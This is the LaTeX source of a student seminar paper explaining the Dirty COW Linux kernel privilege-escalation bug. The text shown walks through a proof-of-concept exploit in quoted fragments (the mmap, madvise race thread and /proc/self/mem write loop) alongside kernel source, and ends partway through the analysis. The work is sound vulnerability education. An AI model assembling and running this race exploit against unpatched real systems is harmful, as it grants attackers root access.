\documentclass[12pt]{scrreprt}
\parindent0em
\parskip 1ex plus 0.4ex minus 0.4ex
\usepackage[a4paper,vmargin=30mm,hmargin=25mm]{geometry}
\usepackage{lmodern}
\usepackage{listings}
\usepackage{graphicx} 
\graphicspath{{img/}}

\usepackage[table,xcdraw]{xcolor}

\usepackage[sorting=none]{biblatex}
\addbibresource{bl.bib}
\usepackage[abbreviations,automake,docdef=restricted]{glossaries-extra}
\usepackage{hyperref}
\usepackage[nottoc]{tocbibind}
\usepackage{pdfpages}
\usepackage{adjustbox}

% \usepackage{amsfonts}
\usepackage{booktabs}
\usepackage{siunitx}

\usepackage{url}
\setcounter{biburllcpenalty}{7000}
\setcounter{biburlucpenalty}{8000}

% macros
\newcommand{\defempg}[1]{\emph{#1}\index{#1}}


\usepackage{textcomp}

\usepackage{multirow}


\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
	backgroundcolor=\color{backcolour},   
	commentstyle=\color{codegreen},
	keywordstyle=\color{magenta},
	numberstyle=\tiny\color{codegray},
	stringstyle=\color{codepurple},
	basicstyle=\footnotesize,
	breakatwhitespace=false,         
	breaklines=true,                 
	captionpos=b,                    
	keepspaces=true,                 
	numbers=left,                    
	numbersep=5pt,                  
	showspaces=false,                
	showstringspaces=false,
	showtabs=false,                  
	tabsize=2,
	aboveskip=10pt,
	belowskip=15pt
}

\lstset{style=mystyle}

% set lstlisting width to 80 characters
\newlength{\eightytt}
\newcommand{\testthewidth}{%
	\fontsize{\dimen0}{0}\selectfont
	\settowidth{\dimen2}{x}%
	\ifdim 80\dimen2>\textwidth
	\advance\dimen0 by -.1pt
	\expandafter\testthewidth
	\else
	\global\eightytt\dimen0
	\fi
}
\AtBeginDocument{%
	\dimen0=\csname f@size\endcsname pt
	\begingroup
	\ttfamily
	\testthewidth
	\endgroup
	\lstset{
		columns=fullflexible,
		basicstyle=\fontsize{\eightytt}{1.2\eightytt}\ttfamily
	}%
}

\makeglossaries
% fuer Stichwortverzeichnis
\usepackage{makeidx}
% Stichwortverzeichnis erstellen
\makeindex


\begin{document}


\newabbreviation{RAM}{RAM}{Random-access memory}
\newabbreviation{MMU}{MMU}{Memory Management Unit}
\newabbreviation{PTE}{PTE}{Page Table Entry}
\newabbreviation{COW}{COW}{Copy-on-Write}
\newabbreviation{VM}{VM}{Virtual Memory}
\newabbreviation{vDSO}{vDSO}{virtual Dynamic Shared Object}
\newabbreviation{ASLR}{ASLR}{Address Space Layout Randomization}
\newabbreviation{UID}{UID}{user ID}
\newabbreviation{PID}{PID}{process ID}

	
\glsaddall
	
\begin{figure}[h!]
	\raggedleft
	
\includegraphics[width=.7\textwidth]{HSAalenIcon.png}\\[10ex]
\end{figure}
\noindent
Sicherheit von Mobilgeräten\\
Studiengang Master Informatik\\
\noindent\rule{\textwidth}{1pt} \\[10ex]

\begin{center}
	\textbf{\Huge Prüfen von Schwachstellen in Mobilgeräten - Dirty COW} \\[7ex]%
	\textbf{\large von}\\[2ex]
	\textbf{\Large Daniel Ebert}\\[1ex]
	\textbf{\Large {65926}} \\[37ex] 
\end{center}

\noindent
\textbf{\large Betreuender Professor: Prof. Roland Hellmann}\\[3ex]
\textbf{\large Einreichungsdatum: \today}


\clearpage

\noindent \textbf{\Large Ehrenwörtliche Erklärung}\\\\

\noindent I confirm that this work is my own work and I have documented all sources and materials used.

\vspace*{2ex}%
Aalen, den \today

\vspace*{2ex}

\includegraphics[width=0.25\textwidth]{ebertunterschrift.PNG}
\\Daniel Ebert

\vspace{2cm}

%\includepdf{unterschrift.pdf}

\clearpage

\noindent
\textbf{\Large Abstract}\\[5ex]
\addcontentsline{toc}{chapter}{Abstract}


\noindent
Dirty COW (CVE-2016-5195) is a privilege escalation\index{Privilege Escalation} bug \cite{54}. Privilege escalation bugs can allow an unprivileged user to gain root privileges and thus take control over the whole system \cite{54}. Dirty COW allows an unprivileged user to write to read-only memory mappings\index{Memory Mapping} \cite{1}. For example, a read-only file could be mapped into the virtual address space\index{Virtual Address Space} of an unprivileged process as a private COW mapping\index{private COW mapping}. This process could exploit the Dirty COW vulnerability to write to the underlying file, even though this file is read-only.

Dirty COW is a bug in the Linux kernel's memory subsystem \cite{1}. In this paper, the source code of the Linux kernel's memory subsystem is analysed to understand the events in the Linux kernel that lead to the Dirty COW bug. Additionally, the paper includes two demonstrations for how Dirty COW can be used on a vulnerable android device to gain access to a root shell\index{Root Shell} as an unprivileged user.

\clearpage

\tableofcontents

\clearpage

\clearpage


\chapter{Introduction}

Dirty COW (Copy on Write) is a race condition\index{Race Condition} vulnerability in the Linux kernel's memory subsystem. This vulnerability is present in the majority of Linux kernels from around kernel version 2.6.22, which was released in 2007, until it was fixed in kernel version 4.8.3, released in October of 2016 \cite{54}. A bug in how the Linux kernel's memory subsystem\index{Memory Subsystem} manages private COW mappings can be exploited to write to read-only memory \cite{54}. This allows privilege escalation.\index{Privilege Escalation} For example, it can allow an unprivileged user to gain root privileges and thus take control over the whole system.

All devices that use affected kernels can be vulnerable. For example, android uses the Linux kernel. For this reason, a large number of android devices were affected by the Dirty COW vulnerability. However, the Dirty COW vulnerability can be patched and fixed with a software update. Many previously vulnerable android devices have received software updates that fix the Dirty COW bug.

This paper analyses the source code of the Linux kernel's memory subsystem to understand the reason for why the Dirty COW vulnerability exists and what events in the Linux kernel's memory subsystem\index{Memory Subsystem} lead to the occurrence of the Dirty COW bug. The version of the analysed kernel source code is version 4.4.12.

This paper also includes two demonstrations that both demonstrate gaining root privileges via the Dirty COW vulnerability on an affected android device. The android device uses android version 6-rc1 and kernel version 4.4.12. The first demonstration uses Dirty COW to overwrite a set-user-ID binary with a binary that executes a shell. An unprivileged user can execute the overwritten set-user-ID binary\index{set-user-ID binary} to gain access to a root\index{Root Shell} shell. set-user-ID binaries usually do not exist on newer (around 2015+) android devices anymore. For this reason, the first demonstration usually only works on older android devices. The second demonstration uses Dirty COW to overwrite the vDSO instead of a set-user-ID binary. Thus, the second demonstration could be used for android devices with no set-user-ID binaries. Virtual machines that are used in the demonstration were uploaded, so that interested readers can participate in and follow the demonstrations.


In this paragraph, the remaining paper will be outlined. Chapter \ref{Background} gives an introduction to the Linux kernel's memory\index{Memory Subsystem} subsystem and how memory is managed in a Linux system in general. The Linux kernel's memory subsystem source code that plays a role in the Dirty COW vulnerability is analysed in chapter \ref{Bug Analysis}. Chapter \ref{Demo 1} and chapter \ref{Demo 2} include the first and second demonstration, respectively. A summary of this paper is given in chapter \ref{Conclusion}.


\chapter{Background - Memory Management} \label{Background}

Dirty COW is possible due to a race condition\index{Race Condition} in the Linux kernel's memory subsystem. A basic understanding of how this memory subsystem\index{Memory Subsystem} works can help in understanding the reason for the Dirty COW bug, which is analysed in chapter \ref{Bug Analysis}. For this reason, this chapter gives a short introduction to how memory is managed in a Linux system.

\textbf{Virtual memory} is a feature that allows a process to have its own view of the computer's memory \cite{29}. Memory addresses in this view are controlled by software \cite{29}. A \textbf{page table}\index{Page Table} maps virtual addresses to physical addresses \cite{29}. Each process has its own page table \cite{29}. For this reason, the same virtual memory\index{Virtual Memory} address can point to different physical memory addresses in different processes. Private COW mappings\index{private COW mapping}, which is used for the Dirty COW exploit, can be implemented due to this system of virtual memory.

\textbf{Physical memory}\index{Physical Memory} is storage hardware such as RAM, SSDs, and HDDs. A physical memory addresses is an identifier for a specific memory cell within such a storage hardware \cite{29}. Read and write operations for storage hardware use physical memory addresses to read and write from the specified memory cells \cite{29}. "Physical memory addresses are unique in the system, virtual memory addresses are unique per-process" \cite{29}.

Physical memory is divided into \textbf{page frames}\index{Page Frame} \cite{53}. Each page frame can be mapped as one or multiple \textbf{virtual pages} \cite{53}. The higher bits in a virtual address specify a page via a page table and the lower bits in a virtual address specify the offset inside this page \cite{53}. More specifically, the page table contains multiple levels. The higher bits specify multiple indices, each index specifies one entry at each level of the page table. A \textbf{page table entry}\index{Page Table Entry} is an entry at the lowest level of a page table. Each page table entry has access protection bits that specify for example if writing to the given page is allowed.

The translation from virtual address to physical address is done via the \textbf{memory management unit}\index{Memory Management Unit} (MMU) \cite{53}. The MMU is usually part of the CPU and the MMU uses the page tables that are managed by the kernel to do this address translation \cite{53}. This translation can fail if for example reading, writing, or executing at a virtual address is not allowed or a virtual address is not mapped to a physical address. A failed translation results in a page\index{Page Fault} fault \cite{29}. The software can then respond to the failed attempt via \textbf{page fault handling}.

A \textbf{memory mapping}\index{Memory Mapping} describes the properties of a contiguous range of virtual addresses \cite{29}. These ranges cannot overlap \cite{29}. Those properties include whether or not writing to virtual addresses in the memory mapping is allowed \cite{29} and they specify associated resources such as the underlying physical pages. New memory mappings can be added to a process via the mmap system call \cite{29}. This system call is later explained in more detail in chapter \ref{Bug Analysis}. If there is no memory mapping for a virtual address range, this virtual address range is said to be 'unmapped' \cite{29}.


\chapter{Bug Analysis} \label{Bug Analysis}

This chapter analyses the steps that lead to the Dirty COW bug. These steps are explained using the minimalistic exploit demo from \cite{2}. In listing captions this demo source code is referenced as 'exploit.c'. The demo uses the Dirty COW bug to allow an unprivileged user to write to a file owned by root. Unprivileged users are allowed to read this file, but they are not allowed to write to the file.


\section{Open a File Read-Only}

\begin{lstlisting}[caption=exploit.c - Open file as read-only \cite{2}, captionpos=b, language=C, label=Open file as read-only]
int main () {
	// Open and map the file.
	int f = open("root_file", O_RDONLY);
...
\end{lstlisting}

The first step is to open the file to which the unprivileged process wants to write. In Listing \ref{Open file as read-only} this is done using the \textit{open} system call. \textit{root\_file} is the path to the file. The second argument for \textit{open} specifies the file access mode. This is either 'O\_RDONLY' (read-only), 'O\_WRONLY' (write-only), or 'O\_RDWR' (read and write) \cite[Sec. Description]{3}. Although the user wants to write to this file, using 'O\_WRONLY' or 'O\_RDWR' instead of \textit{O\_RDONLY} in \textit{open} would fail with the 'EACCES' error, because the unprivileged process does not have the permissions to write to the file \cite[Sec. Errors]{3}. Instead, the Dirty COW bug is exploited to write to the file. \textit{open} returns the file descriptor \textit{f} \cite[Sec. Return Value]{3}.

\section{Private Copy-on-Write Mapping of a File} \label{Private Copy-on-Write Mapping of a File}

\begin{lstlisting}[caption=exploit.c - Map file to process's memory \cite{2}, captionpos=b, language=C, label=Map file to process memory]
...
	struct stat file_info;
	fstat(f, &file_info);
	map = mmap(NULL, file_info.st_size, PROT_READ, MAP_PRIVATE, f, 0);
...
\end{lstlisting}

Listing \ref{Map file to process memory} uses \textit{fstat} to retrieve the size of file \textit{f} in bytes \cite{4}. This information is required for the \textit{mmap} system call.

\textit{mmap} creates a mapping of a file and an area of the virtual\index{Virtual Address Space} address space of the calling process \cite{5}. The underlying file could be a regular file such as a text, image, or binary file on disk. The file is not copied to the process's memory. Instead, if the process would read a value whose address is in the mapped area, the value is read directly from disk.

The kernel caches reads of memory from disk, so that subsequent reads from the same page are not always read directly from disk. In this chapter, when it is stated that the underlying file is read or written to, it is this kernel page cache that is read or written to. The previous paragraph wanted to convey that the underlying file is directly accessed and that mmap does not copy the file's contents into the process's memory to create a private copy/cache. Reading a whole file from disk is expensive in terms of time, especially if the underlying file is large.

Because 'everything' is a file in Linux, the underlying file could also be a 'file' from the kernel \cite{6}. This 'file' could be used as an interface to read from and/or write to kernel resources \cite{6}.

\begin{figure}[!h]
	\centering
	
\includegraphics[width=1\textwidth]{mmapOverview.jpg}
	\caption{mmap Syscall Representation \cite{7}}
	\label{fig:mmap Syscall Representation}
\end{figure}

Figure \ref{fig:mmap Syscall Representation} gives a representation for how the mmap arguments affect the mapping. The process can specify a preferred starting address for the mapping via the \textit{address} argument \cite{7}. If \textit{address} is NULL, the kernel chooses an unmapped area in the virtual address space\index{Virtual Address Space} for the new mapping \cite{5}. The \textit{length} argument is the number of bytes that are mapped, starting from the \textit{offset} argument in the file \cite{5}. This file is specified via the \textit{filedes} argument \cite{5}. In exploit.c, this argument is set to the file descriptor from the open syscall. The starting address of the mapped area is returned from the \textit{mmap} call. 

The \textit{protect} argument describes the permitted access, i.e. whether or not the process is allowed to read, write, or execute the mapped memory \cite{5} \cite{7}. These access permissions must not conflict with the allowed access modes of the file \cite{5}. In listing \ref{Open file as read-only}, the specified access mode is \textit{O\_RDONLY} (read-only). Therefore, the access permission for the mapped memory is set to \textit{PROT\_READ}, specifying that the underlying file may only be read.

A mmap mapping can either be a shared mapping\index{Shared Mapping} or a private copy-on-write (COW) mapping \cite{5}. Writing to a shared mapping propagates the changes to the underlying file and all processes that map the same memory \cite{5}. If a shared mapping is mapped read-only, writing to the shared mapping is not allowed and fails. 

Writing to a private COW mapping\index{private COW mapping} is allowed. This is the case even if write permissions are not specified in the \textit{protect} argument. Writing to a private COW mapping does not propagate the changes to the underlying file or processes that map the same memory \cite{5}. If a private COW mapping is written to, the physical pages of the underlying file that are written to are copied. Instead of the underlying file, the copy is written to. If a given page was copied already, the page is not copied again. Even though the process may not be allowed to write to the underlying file, the process is allowed to write to a copy of this file. COW is lazy allocation, i.e. the copy is only created when it is actually needed, if ever.

If a copy is created, the kernel proceeds as follows:
\begin{enumerate}
  \item A new page is allocated \cite{10}.
  \item The page of the underlying file that the process wanted to write to is copied to the newly allocated page from step 1 \cite{10}.
  \item The entry in the process's page table\index{Page Table} that previously pointed to the page of the underlying file is updated so that it points to the newly allocated page from step 1 \cite{10}.
\end{enumerate}

Due to virtual memory\index{Virtual Memory}, if a copy is created, the virtual address that previously pointed to the underlying file now points to the created copy. How the kernel handles COW in detail and how this COW mechanism is exploited to write to the underlying file is explained later in this chapter.

The kernel manages the mapping via a kernel object called 'vm\_area\_struct' \cite{1}. 'vm area' is short for \textbf{Virtual Memory Area}. The Virtual Memory Area\index{Virtual Memory Area} struct contains information such as a file descriptor to the underlying file, as well as read and write permissions for the pages in the mapped area \cite{1}.

COW is used in virtual memory management for performance reasons. For example, the fork system call uses COW \cite{8}. Instead of duplicating the process's memory, the process's memory is marked as non-writable and as 'COW'. If either the parent or child process modifies its memory, a private copy of the modified pages are created and used. Due to COW, if a page is only read but never written to, this page is never copied.

\section{Start two Threads}

\begin{lstlisting}[caption=exploit.c - Start two threads \cite{2}, captionpos=b, language=C, label=Start two threads]
...
	pthread_t thread_1, thread_2;
	pthread_create(&thread_1, NULL, write_to_mapping, NULL);
	pthread_create(&thread_2, NULL, drop_mapping, NULL);
...
\end{lstlisting}

Dirty COW is possible due to a race condition\index{Race Condition} in the Linux kernel's memory subsystem\index{Memory Subsystem}. This race condition occurs because writing to a private COW mapping\index{private COW mapping}, for which no copy exists yet, is not atomic \cite{9}. A situation can occur, where the copy is created and dropped before writing \cite{9}. The kernel will then write to the underlying file instead of the copy that then no longer exists. 

Listing \ref{Start two threads} starts two threads. One thread will repeatedly write to a private COW mapping. The other thread will repeated drop the copy. The chance that the situation described in the last paragraph occurs is low, but with repeated trying, the situation occurs within a few seconds.

\section{Dropping Thread - Drop Page with madvise}

\begin{lstlisting}[caption=exploit.c - madvise \cite{2}, captionpos=b, language=C, label=madvise]
void* drop_mapping (void *arg) {
	// (m)advise kernel to drop mapping.
	int i;
	for (i = 0; i < 10000; i++)
		madvise(map, 100, MADV_DONTNEED);
}
\end{lstlisting}

Listing \ref{madvise} repeatedly invokes the madvise system call. madvise, short for memory advice, allows the process to give the kernel advice about how the process intends to use an area of the process's mapped or shared memory \cite{11}. This is usually done for performance reasons \cite{11}. The kernel uses various caching and read-ahead techniques \cite{11}. It is often difficult for the kernel to infer the best technique. For this reason, madvise can be used to provide additional hints and information to the kernel to make it easier for the kernel to choose the best technique for an area of the process's memory.

The first madvise argument specifies the starting address of this area \cite{11}. In listing \ref{madvise}, the first argument is set to the \textit{map} variable. \textit{map} is returned from the mmap call and points to the starting address of the private COW mapping\index{private COW mapping}. The length of this area in bytes is specified in the second madvise argument \cite{11}.

Different types of advices can be specified in the third madvise argument \cite{11}. The type of advice in listing \ref{madvise} is \textit{MADV\_DONTNEED}\index{MADV\_DONTNEED}. MADV\_DONTNEED advises the kernel that the memory area is not accessed by the process in the near future \cite{11}. The kernel will then free resources that are associated with the memory area \cite{11}. If the advised memory area contains copied pages from COW, these copied pages are dropped. More specifically, the pages that were allocated for the copied pages are freed \cite{12} \cite{1}. The copy is not written back to the underlying file. Subsequent reads from the memory area are read from the underlying file with up-to-date contents \cite{11}. This behaviour is as if the COW never happened. A subsequent write will once again create a copy of the accessed page \cite{11}.

\section{Writing Thread}

\begin{lstlisting}[caption=exploit.c - write via process-to-process virtual memory access \cite{2}, captionpos=b, language=C, label=write via process-to-process virtual memory access]
void *write_to_mapping (void *arg) {
	// Write to mapping through '/proc/self/mem'.
	int i;
	int f = open("/proc/self/mem", O_RDWR);
	for (i = 0; i < 10000; i++) {
		lseek(f, (uintptr_t)map, SEEK_SET);
		write(f, to_be_written, strlen(to_be_written));
	}
}
\end{lstlisting}

Listing \ref{write via process-to-process virtual memory access}\index{Virtual Memory Access} repeatedly writes to the private COW mapping\index{private COW mapping}. However, instead of writing directly to the virtual memory\index{Virtual Memory} of the mapping, the process writes to \textit{/proc/self/mem}\index{/proc/self/mem}.

\section{The proc Filesystem} \label{The proc Filesystem}

The proc filesystem\index{proc Filesystem} is a pseudo-filesystem\index{Pseudo-Filesystem} \cite{14}. It contains special 'files' with information about the system and its processes \cite{15}. These files do not exist on disk \cite{15}. They act as interfaces to read from and optionally write to kernel resources.

The proc filesystem contains a directory for every currently running process. /proc/self is a symbolic link to the process's own directory \cite{14}. Therefore, if different processes access /proc/self, /proc/self will point to different directories.

/proc/PROCESS\_DIRECTORY/mem can be used to read and write to a process's memory \cite{14}. This provides process-to-process virtual memory access\index{Virtual Memory Access} and is implemented by the kernel \cite{13}. There are alternative process-to-process virtual memory access methods, such as ptrace\index{ptrace}. This alternative via ptrace is used in the android exploit in chapter \ref{Demo 2}.

Even though the process indirectly writes to its own memory, the kernel nevertheless uses its process-to-process virtual memory access implementation to perform the write. This is necessary, because the bug that makes the Dirty COW exploit possible lives in the kernel's process-to-process virtual memory access implementation \cite{13}.

There are several reasons for why process-to-process virtual memory\index{Virtual Memory Access} access exists and why it may be allowed for an unprivileged process. For example, debuggers use software breakpoints. These debuggers implement software breakpoints by accessing the virtual memory of the debuggee process and by replacing the instruction at the desired breakpoint locations with interrupt instructions \cite{16}. Other use cases for process-to-process virtual memory\index{Virtual Memory} access include strace \cite{30} and antivirus software.

Not every process is allowed to write to any arbitrary process. Opening '/proc/PROCESS\_DIRECTORY/mem' with an access mode such as \textit{O\_RDWR} in listing \ref{write via process-to-process virtual memory access} can fail due to denied permissions. However, a process is allowed to open and write to its own memory, e.g. via /proc/self/mem and to write to a child process via ptrace \cite{50}.

lseek is used to specify the offset in a file where upcoming writes should begin. In listing \ref{write via process-to-process virtual memory access},\index{Virtual Memory Access} \textit{lseek} repositions the offset of file descriptor \textit{f} to the start of the private COW mapping. The \textit{to\_be\_written} string in the following \textit{write} system call is then written to a copy of the private COW mapping\index{private COW mapping}.

\section{write System Call Implementation}

The kernel uses different implementations for file operations such as 'write', depending on the kind of file. The file operations for a given kind of file are specified in a struct called file\_operations \cite{1}. Listing \ref{procmemoperations struct} shows the \textit{file\_operations} definition that is used for file operations on /proc/self/mem\index{/proc/self/mem} \cite{1}. The kernel version of this and upcoming kernel source code listings is version 4.4.12. This kernel version is used in the android exploit in chapters \ref{Demo 1} and \ref{Demo 2}.

\begin{lstlisting}[caption=proc\_mem\_operations struct in /fs/proc/base.c \cite{17}, captionpos=b, language=C, label=procmemoperations struct]
static const struct file_operations proc_mem_operations = {
	.llseek     = mem_lseek,
	.read       = mem_read,
	.write      = mem_write,
	.open       = mem_open,
	.release    = mem_release,
};
\end{lstlisting}

The write system call on /proc/self/mem\index{/proc/self/mem} results in \textit{mem\_write} being called in the kernel \cite{1} \cite{17}. \textit{mem\_write} is a one line wrapper for the \textit{mem\_rw} function \cite{17}, i.e. \textit{mem\_write} calls the \textit{mem\_rw} function with similar function arguments and \textit{mem\_write} returns the return value from \textit{mem\_rw}. Relevant parts of this \textit{mem\_rw} function are shown in the following listing \ref{memrw function}:

\begin{lstlisting}[caption=mem\_rw function in /fs/proc/base.c \cite{17}, captionpos=b, language=C, label=memrw function]
static ssize_t mem_rw(struct file *file, char __user *buf,
			size_t count, loff_t *ppos, int write)
{
	struct mm_struct *mm = file->private_data;
	unsigned long addr = *ppos;
	ssize_t copied;
	char *page;

... allocate buffer for 'char *page'

	while (count > 0) {
		int this_len = min_t(int, count, PAGE_SIZE);

		if (write && copy_from_user(page, buf, this_len)) {
			copied = -EFAULT;
			break;
		}

		this_len = access_remote_vm(mm, addr, page, this_len, write);
...
		buf += this_len;
		addr += this_len;
		copied += this_len;
		count -= this_len;
	}
... free buffer 'page'
}
\end{lstlisting}

\textit{mem\_rw} allocates a temporary memory buffer called \textit{page} in kernel-space \cite{17}. After that the 'to\_be\_written' string is copied from user-space to this \textit{page} buffer with the \textit{copy\_from\_user} function \cite{17}. The \textit{buf} argument points to the 'to\_be\_written' string. An indirect write via a buffer is required for use cases where the writing process and the process that is written to differ, because a process cannot directly access the memory of another process \cite{1}.

\textit{access\_remote\_vm} is used to write to another process's virtual address space\index{Virtual Address Space} \cite{18}. This other process is referred to as the target process. \textit{mm} is a struct that contains information about the target process's virtual address space, including a list of vm\_area\_structs \cite{19}. These vm\_area\_structs were mentioned in section \ref{Private Copy-on-Write Mapping of a File} and contain information about memory mappings\index{Memory Mapping}, such as private COW mappings\index{private COW mapping}. \textit{addr} is the start address of where to write in the target process. The address of the \textit{page} buffer is also passed to the \textit{access\_remote\_vm} function and is used as the source buffer for the write \cite{18}. \textit{this\_len} specifies the number of bytes to write \cite{18}. The \textit{access\_remote\_vm} can also be used to read memory from the target process. Whether to write or read is set via the \textit{write} argument \cite{18}. ptrace\index{ptrace}, the /proc/self/mem\index{/proc/self/mem} alternative used in the android exploit in chapter \ref{Demo 2}, also uses the \textit{access\_remote\_vm} function for process-to-process virtual memory access\index{Virtual Memory Access}.\index{Virtual Memory}

Each \textit{access\_remote\_vm} invocation writes a maximum of \textit{PAGE\_SIZE} bytes. On x86\_64, \textit{PAGE\_SIZE} is 4096 bytes \cite{20}. For this reason, \textit{mem\_rw} loops until all pages are written via \textit{access\_remote\_vm}.

\section{Process-to-Process Virtual Memory Access} \label{Process-to-Process Virtual Memory Access}

access\_remote\_vm\index{Virtual Memory Access} is a one line wrapper for the \_\_access\_remote\_vm function \cite{18}. Relevant parts of the latter function are shown in listing \ref{accessremotevm function}:

\begin{lstlisting}[caption=\_\_access\_remote\_vm function in /mm/memory.c \cite{18}, captionpos=b, language=C, label=accessremotevm function]
static int __access_remote_vm(struct task_struct *tsk, struct mm_struct *mm,
		unsigned long addr, void *buf, int len, int write)
{
	struct vm_area_struct *vma;
	void *old_buf = buf;
...
	while (len) {
		int bytes, ret, offset;
		void *maddr;
		struct page *page = NULL;

		ret = get_user_pages(tsk, mm, addr, 1,
				write, 1, &page, &vma);
		if (ret <= 0) {
... break
		} else {
			bytes = len;
			offset = addr & (PAGE_SIZE-1);
			if (bytes > PAGE_SIZE-offset)
				bytes = PAGE_SIZE-offset;

			maddr = kmap(page);
			if (write) {
				copy_to_user_page(vma, page, addr,
						  maddr + offset, buf, bytes);
				set_page_dirty_lock(page);
			} else {
				copy_from_user_page(vma, page, addr,
						    buf, maddr + offset, bytes);
			}
			kunmap(page);
			page_cache_release(page);
		}
		len -= bytes;
		buf += bytes;
		addr += bytes;
	}
...
	return buf - old_buf;
}
\end{lstlisting}

The temporary memory buffer named 'page' from the mem\_rw function (listing \ref{memrw function}) is passed in the \textit{buf} parameter for \textit{\_\_access\_remote\_vm}. mem\_rw's buffer variable naming is badly named because the buffer 'page' is not a (virtual) page.

On a high level, \textit{\_\_access\_remote\_vm} calls \textit{get\_user\_pages} to get the page where the 'to\_be\_written' string in \textit{buf} is written to. Writing is done via the \textit{copy\_to\_user\_page} function call. Because a private COW\index{private COW mapping} mapping is written to, under normal conditions, \textit{get\_user\_pages} returns a page from the COW copy. Due to Dirty COW, \textit{get\_user\_pages} can return a page of the underlying file instead.

\textit{get\_user\_pages} returns a page via the \textit{page} variable. This \textit{page} variable is a \textit{page struct}. Each physical page frame\index{Page Frame} in the system is associated with a page struct \cite{19} \cite{21}.

\textit{page} is mapped into the address space of the kernel with the \textit{kmap} function \cite{22}. Next, \textit{copy\_to\_user\_page} copies \textit{bytes} byte from \textit{buf} to \textit{'maddr + offset'}. \textit{'maddr + offset'} points into the \textit{kmap} mapped area.

Even though the vm\_area\_struct \textit{vma}\index{Virtual Memory Area}, which includes read and write permissions for a mapped area, is passed to \textit{copy\_to\_user\_page}, \textit{copy\_to\_user\_page} does not check page access permissions or anything along those lines. The Dirty COW bug happens exclusively in the \textit{get\_user\_pages} function. \textit{vma}, \textit{page}, and \textit{addr} are only passed for setting flags.

The loop handles the case where \textit{addr} is not page-aligned and the write destination area stretches over two pages. 

\section{Return Page via Process-to-Process Access}

\textit{get\_user\_pages} is a one line wrapper for the \textit{\_\_get\_user\_pages\_locked} function \cite{23}. Both functions are shown in the following listing \ref{getuserpages function}:

\begin{lstlisting}[caption=get\_user\_pages function in /mm/gup.c \cite{23}, captionpos=b, language=C, label=getuserpages function]
long get_user_pages(struct task_struct *tsk, struct mm_struct *mm,
		unsigned long start, unsigned long nr_pages, int write,
		int force, struct page **pages, struct vm_area_struct **vmas)
{
	return __get_user_pages_locked(tsk, mm, start, nr_pages, write, force,
				       pages, vmas, NULL, false, FOLL_TOUCH);
}

...

static __always_inline long __get_user_pages_locked(struct task_struct *tsk,
		struct mm_struct *mm, unsigned long start, unsigned long nr_pages,
		int write, int force, struct page **pages, struct vm_area_struct **vmas,
		int *locked, bool notify_drop, unsigned int flags)
{
	long ret, pages_done;
...
	if (pages)
		flags |= FOLL_GET;
	if (write)
		flags |= FOLL_WRITE;
	if (force)
		flags |= FOLL_FORCE;

...
	ret = __get_user_pages(tsk, mm, start, nr_pages, flags, pages,
				   vmas, locked);
...
\end{lstlisting}

These two functions set so called gup\_flags (Get User Pages flags). They are also called foll\_flags (Follow flags)\index{Follow Flag} \cite{1}. These flags specify why and how the caller wants to retrieve the target pages \cite{1}. The flags are passed to the \textit{\_\_get\_user\_pages} function. When \_\_get\_user\_pages is called, the \textit{flags} consist of the following Follow flags: 'FOLL\_TOUCH | FOLL\_GET | FOLL\_WRITE | FOLL\_FORCE'. Due to the flag \textit{FOLL\_WRITE}, the type of page access is specified as a write access and not as a read access.

Relevant parts of the \_\_get\_user\_pages function are shown in the following listing \ref{getuserpages2 function}:

\begin{lstlisting}[caption=\_\_get\_user\_pages function in /mm/gup.c \cite{23}, captionpos=b, language=C, label=getuserpages2 function]
long __get_user_pages(struct task_struct *tsk, struct mm_struct *mm,
		unsigned long start, unsigned long nr_pages,
		unsigned int gup_flags, struct page **pages,
		struct vm_area_struct **vmas, int *nonblocking)
{
	struct vm_area_struct *vma = NULL;
...
	do {
...
retry:
... set variable 'vma' via variable 'mm'
		cond_resched();
		page = follow_page_mask(vma, start, foll_flags, &page_mask);
		if (!page) {
			int ret;
			ret = faultin_page(tsk, vma, start, &foll_flags,
					nonblocking);
			switch (ret) {
			case 0:
				goto retry;
			case -EFAULT:
			case -ENOMEM:
			case -EHWPOISON:
				return i ? i : ret;
			case -EBUSY:
				return i;
			case -ENOENT:
				goto next_page;
			}
			BUG();
		} 
...
		if (pages) {
			pages[i] = page;
			flush_anon_page(vma, page, start);
			flush_dcache_page(page);
			page_mask = 0;
		}
...
\end{lstlisting}


\textit{\_\_get\_user\_pages} is similar to what happens when memory is accessed in user-space via the memory management unit\index{Memory Management Unit}, but \textit{\_\_get\_user\_pages} simulates that directly in kernel-space, together with page fault handling \cite{1}. The page fault handling is implemented via the \textit{faultin\_page} function. \textit{\_\_get\_user\_pages} uses \textit{goto retry;} and the \textit{retry:} label to retry \textit{follow\_page\_mask} if the page fault handling was successful. More on this later.

